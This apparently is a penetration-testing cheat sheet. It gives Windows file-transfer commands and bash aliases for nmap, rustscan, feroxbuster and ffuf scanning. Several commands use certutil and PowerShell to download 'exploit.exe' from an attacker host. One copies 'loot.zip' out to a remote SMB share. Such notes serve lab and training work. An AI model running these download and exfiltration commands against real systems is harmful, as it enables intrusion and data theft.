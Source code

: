 ### Windows

#### SMB server

Setup an SMB server on the attacker machine with `sudo impacket-smbserver share ./ -smb2support`

`copy \\10.10.10.10\share\exploit.exe C:\Windows\Temp\exploit.exe`

`copy .\loot.zip \\9.9.9.9\share\loot.zip`

#### HTTP

Setup an HTTP server with `sudo python3 -m http.server 80`

`certutil -urlcache -f http://10.10.10.10/file .\file`

`powershell -c (New-Object Net.WebClient).DownloadFile("http://10.10.10.10/file","C:\Windows\Temp\file")`

`powershell -c Invoke-WebRequest "http://10.10.10.10/exploit.exe" -OutFile "exploit.exe"`

`powershell -c wget "http://10.10.10.10/exploit.exe" -OutFile "C:\Windows\Temp\exploit.exe"`



Impact-Site-Verification: b975e8a6-3f75-4d49-aa65-17c7f42b29d2

## Aliases

```bash
alias www='sudo python3 -m http.server 80'
alias hosts='sudo vim /etc/hosts'
alias tun0cp="ifconfig tun0 | grep 'inet ' | cut -d' ' -f10 | tr -d '\n' | xclip -sel clip"
alias tun0="ifconfig tun0 | grep 'inet ' | cut -d' ' -f10 | tr -d '\n'"

nmapcv() {
    [ ! -d "./scans" ] && mkdir scans
    sudo nmap -sCV -T4 "${@}" | tee scans/nmap
}

nmapall() {
    [ ! -d "./scans" ] && mkdir scans
    sudo nmap --min-rate 1000 -p- -T4 "${@}" | tee scans/nmapall
}

rustall() {
    rustscan -r 0-65535 --ulimit 5000 $1 -t 9000 -- -sV -sC
}

ferobig () { 
    url="$1"; shift; feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://$url "$@" | tee scans/ferobig.txt
}

ferodir () { 
    url="$1"; shift; feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://$url "$@" | tee scans/ferodir.txt
}

ferocom () {
    url="$1"; shift; feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://$url "$@" | tee scans/ferocom.txt
}

ffufnames () {
    url="$1"; shift; ffuf -c -w /usr/share/seclists/Discovery/DNS/namelist.txt -u http://$url -H "Host: FUZZ.$url" "$@"
}
```